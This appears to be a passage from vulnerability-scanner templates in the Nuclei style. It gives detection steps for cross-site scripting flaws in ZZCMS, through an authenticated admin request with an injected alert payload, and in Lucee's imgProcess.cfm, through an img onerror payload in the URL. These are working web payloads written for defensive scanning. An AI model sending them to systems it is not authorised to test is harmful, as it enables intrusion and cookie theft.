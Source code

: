 **Type - word**
- words
    1. text/html
- part - header

---
# ZZCMS - Cross-Site Scripting
## Description
- ZZCMS contains a cross-site scripting vulnerability. An attacker can execute arbitrary script and thus steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - zzcms,xss,authenticated
## Requests
### Step - 1
```
POST /admin/logincheck.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

admin={{username}}&pass={{password}}

```
### Step - 2
```
GET /admin/usermodify.php?id=1%22%2balert(document.domain)%2b%22 HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - dsl**
- dsl
    1. contains(all_headers_2, 'text/html')
    2. status_code_2 == 200
    3. contains(body_2, "参数 1\"+alert(document.domain)+")
- condition - and

---
# Lucee - Cross-Site Scripting
## Description
- Lucee contains a cross-site scripting vulnerability. It allows remote attackers to inject arbitrary JavaScript into the responses returned by the server.
- severity - high
- tags - lucee,xss,unauth
## Requests
- Method - GET
### URL
- {{BaseURL}}/lucees3ezf%3cimg%20src%3da%20onerror%3dalert('{{randstr}}')%3elujb7/admin/imgProcess.cfm
- {{BaseURL}}/lucee/lucees3ezf%3cimg%20src%3da%20onerror%3dalert('{{randstr}}')%3elujb7/admin/imgProcess.cfm
### Matchers
